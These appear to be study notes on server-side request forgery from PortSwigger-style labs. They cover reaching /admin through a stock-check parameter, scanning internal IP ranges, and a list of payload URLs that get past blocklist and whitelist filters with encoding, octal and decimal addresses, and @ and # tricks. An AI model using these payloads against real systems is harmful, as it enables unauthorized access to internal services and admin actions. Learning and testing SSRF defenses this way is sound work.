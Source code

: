 Now of course, the attacker could just visit the `/admin` URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the `/admin` URL comes from the local machine itself, the normal [access controls](https://portswigger.net/web-security/access-control) are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

---
# SSRF attacks against other back-end systems
There might be other internal systems not accessible to the public. We need to do a **Ping Scan** to search for the valid node.
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118
stockApi=http://192.168.0.$X$/admin                   %% Go to Burp Intruder & do the Ping Scan %%
```

Fuzz for different ports as well! (Ex: stockApi=http://localhost:$X$)

---
# Circumventing common SSRF defenses
 - [ ] Use different `encoding` schemes
- *Decimal-encoded* version of 127.0.0.1 is 2130706433
- 127.1 resolves to 127.0.0.1
- *Octal representation* of 127.0.0.1 is 017700000001

- [ ] Obfuscating blocked strings using URL encoding or case variation
```http
http://%2f%2flocalhost%2fadmin%2fdelete?username=carlos
http://%2f%2flocalhost/login/../%2fadmin%2fdelete?username=carlos
http://%2f%2flocalhost/x/../%2fadmin%2fdelete?username=carlos
https://%2f%2flocalhost/login/../%2fadmin%2fdelete?username=carlos
http://%2f%2flocalhost/////admin%2fdelete?username=carlos
http://127.1/ADMIN/delete?username=carlos
http://localhost/AdMiN/delete?username=carlos
```
Double URL Encode characters too if these don't work!

- [ ] Change http to https or vice-versa

---
# SSRF with whitelist-based input filters
The URL specification contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validation of URLs:

-   You can embed credentials in a URL before the hostname, using the `@` character. For example:
    `https://expected-host:fakepassword@evil-host`
-   You can use the `#` character to indicate a URL fragment. For example:
    `https://evil-host#expected-host`
-   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
    `https://expected-host.evil-host`
-   You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. Note that you can also try *double-encoding* characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
-   You can *use combinations* of these techniques together.
Example :-
`http://localhost#@stock.weliketoshop.net:8080/admin/delete?username=carlos`               %% Double URL Encode "#" character %%
